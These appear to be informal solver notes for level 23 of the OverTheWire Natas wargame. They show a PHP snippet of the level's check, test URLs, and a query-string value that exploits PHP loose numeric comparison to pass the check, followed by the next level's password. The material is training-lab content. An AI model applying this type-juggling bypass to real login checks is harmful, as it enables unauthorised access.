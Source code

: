 http://natas23.natas.labs.overthewire.org?passwd=iloveyouuuu

<?php
$passwd = 'iloveyouuuuuuu';
if (strstr($passwd, "iloveyou") && ($passwd > 10)) {
    echo "works";
} else {
    echo "wrong";
}
?>

<?php
$passwd = 'iloveyouuuuuuu';
if(strstr($passwd,"iloveyou") && ($passwd > 10)){
    echo "works";
}else{
    echo "wrong";
}
?>

maybe would work for a newer php? doesnt seem to work for natas tho

http://natas23.natas.labs.overthewire.org/?passwd=1213456iloveyou

https://stackoverflow.com/questions/19724027/comparing-numeric-strings

The credentials for the next level are:

Username: natas24 Password: MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd
